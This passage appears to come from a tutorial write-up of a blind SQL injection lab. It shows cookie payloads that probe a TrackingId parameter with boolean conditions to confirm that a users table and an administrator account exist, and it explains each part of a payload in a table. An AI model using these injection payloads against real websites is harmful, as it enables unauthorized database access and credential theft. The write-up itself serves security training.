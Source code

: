 Try again with `AND 1=2`:

### 📥 Cookie:
```http
Cookie: TrackingId=ZHWKDa1jPXivi6Y5' AND 1=2--
```

### 💡 Result: No welcome back ❌  
✅ The condition evaluated to FALSE.

🎯 **This confirms we can control the logic of the SQL query** — we now have a way to ask TRUE/FALSE questions.

## 🗃️ Step 3: Check if `users` Table Exists

We know from the lab description there’s a `users` table, but let's verify it exists using a subquery.

### 📥 Cookie:
```http
Cookie: TrackingId=ZHWKDa1jPXivi6Y5' AND (SELECT 'x' FROM users LIMIT 1)='x'--
```

### 🔍 Breakdown:

| Part | Meaning |
|------|---------|
| `'` | Closes the original string input |
| `AND` | Ensures both sides must be true for the whole expression to be true |
| `(SELECT 'x' FROM users LIMIT 1)` | Returns `'x'` if at least one row exists in `users` |
| `='x'` | Compares result to `'x'` — returns TRUE or FALSE |
| `LIMIT 1` | Prevents multiple-row error |
| `--` | Comments out any remaining SQL |

### 💡 Result: Welcome back appears ✅  
➡️ The `users` table exists.

## 👤 Step 4: Check if `administrator` User Exists

Let’s confirm the `administrator` user exists.

### 📥 Cookie:
```http
Cookie: TrackingId=ZHWKDa1jPXivi6Y5' AND (SELECT username FROM users WHERE username='administrator')='administrator'--
```

### 🔍 Breakdown:

